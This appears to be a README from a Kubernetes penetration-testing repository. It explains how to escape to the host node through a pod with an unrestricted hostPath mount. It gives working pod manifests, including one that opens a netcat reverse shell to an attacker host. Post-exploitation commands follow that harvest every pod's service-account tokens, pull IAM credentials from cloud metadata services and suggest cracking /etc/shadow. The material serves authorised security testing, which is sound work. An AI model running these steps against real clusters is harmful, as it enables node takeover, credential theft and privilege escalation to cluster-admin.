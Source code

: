 # You can create a pod with only a hostpath mount, but it is unrestricted 
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 

# Pod Creation

### Create a pod you can exec into

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostpath
  labels:
    app: pentest
spec:
  containers:
  - name: hostpath
    image: busybox
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[hostpath-exec.yaml](hostpath-exec.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f hostpath-exec.yaml  
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpath/hostpath-exec.yaml  
```

#### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpath -- chroot /host
```

### Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostpath-revshell
  labels:
    app: pentest
spec:
  containers:
  - name: hostpath-revshell
    image: busybox
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  
  restartPolicy: Always
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[hostpath-exec.yaml-revshell.yaml](hostpath-exec.yaml-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/hostpath/hostpath-exec.yaml-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

# You now have read/write access to the nodes's filesystem, mounted in /host within your pod
```bash
cd /host
```

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

#### This lists the location of every service account used by every pod on the node you are on, and tells you the namespace
```bash
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort
```

```
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token
```

##### For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
```bash
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions
```

Does the token allow you to view secrets in that namespace? How about other namespaces?
Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?


If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/insce-accounts/default/token
```

Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/
* [The Path Less Traveled: Abusing Kubernetes Defaults](https://www.youtube.com/watch?v=HmoVSmTIOxM) & [corresponding repo](https://github.com/mauilion/blackhat-2019)
